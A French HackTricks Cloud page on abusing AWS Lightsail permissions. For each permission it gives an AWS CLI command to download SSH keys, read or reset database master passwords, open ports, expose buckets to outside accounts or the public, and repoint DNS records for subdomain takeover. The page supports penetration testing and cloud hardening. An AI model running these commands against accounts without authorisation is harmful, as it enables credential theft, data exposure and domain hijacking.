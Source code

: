 # AWS - Lightsail Privesc

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Pour plus d'informations sur Lightsail, consultez :

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Il est important de noter que Lightsail **n'utilise pas les rôles IAM appartenant à l'utilisateur** mais à un compte géré par AWS, vous ne pouvez donc pas abuser de ce service pour l'élévation de privilèges. Cependant, des **données sensibles** telles que du code, des clés API et des informations de base de données pourraient être trouvées dans ce service.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Cette autorisation vous permettra d'obtenir les clés SSH pour accéder aux instances :
```
aws lightsail download-default-key-pair
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:GetInstanceAccessDetails`

Cette autorisation vous permettra de générer des clés SSH pour accéder aux instances :
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des instances.

### `lightsail:CreateBucketAccessKey`

Cette autorisation vous permettra d'obtenir une clé pour accéder au bucket :
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur du bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Cette autorisation vous permettra d'obtenir les identifiants pour accéder à la base de données :
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur de la base de données.

### `lightsail:UpdateRelationalDatabase`

Cette autorisation vous permettra de changer le mot de passe pour accéder à la base de données :

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Si la base de données n'est pas publique, vous pourriez également la rendre publique avec ces autorisations avec

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impact potentiel :** Trouver des informations sensibles à l'intérieur de la base de données.

### `lightsail:OpenInstancePublicPorts`

Cette permission permet d'ouvrir des ports vers Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impact potentiel :** Accès aux ports sensibles.

### `lightsail:PutInstancePublicPorts`

Cette autorisation permet d'ouvrir des ports à Internet. Notez que l'appel fermera tout port ouvert non spécifié dessus.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impact potentiel :** Accès aux ports sensibles.

### `lightsail:SetResourceAccessForBucket`

Cette autorisation permet de donner à une instance l'accès à un compartiment sans nécessiter de justificatifs supplémentaires

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impact potentiel :** Nouvel accès potentiel aux buckets contenant des informations sensibles.

### `lightsail:UpdateBucket`

Avec cette autorisation, un attaquant pourrait accorder à son propre compte AWS un accès en lecture aux buckets ou même rendre les buckets publics pour tout le monde :
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impact potentiel :** Nouvel accès potentiel aux buckets contenant des informations sensibles.

### `lightsail:UpdateContainerService`

Avec ces autorisations, un attaquant pourrait accorder l'accès aux ECR privés depuis le service de conteneurs
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impact potentiel :** Obtenir des informations sensibles à partir d'ECR privé

### `lightsail:CreateDomainEntry`

Un attaquant avec cette autorisation pourrait créer un sous-domaine et le pointer vers son propre adresse IP (prise de contrôle de sous-domaine), ou créer un enregistrement SPF qui lui permet de usurper des e-mails du domaine, ou même définir le domaine principal sur sa propre adresse IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impact potentiel :** Prendre le contrôle d'un domaine

### `lightsail:UpdateDomainEntry`

Un attaquant avec cette autorisation pourrait créer un sous-domaine et le pointer vers son propre adresse IP (prise de contrôle de sous-domaine), ou créer un enregistrement SPF qui lui permet de falsifier des e-mails provenant du domaine, voire définir l'adresse IP de son propre domaine principal.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impact potentiel :** Prendre le contrôle d'un domaine

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
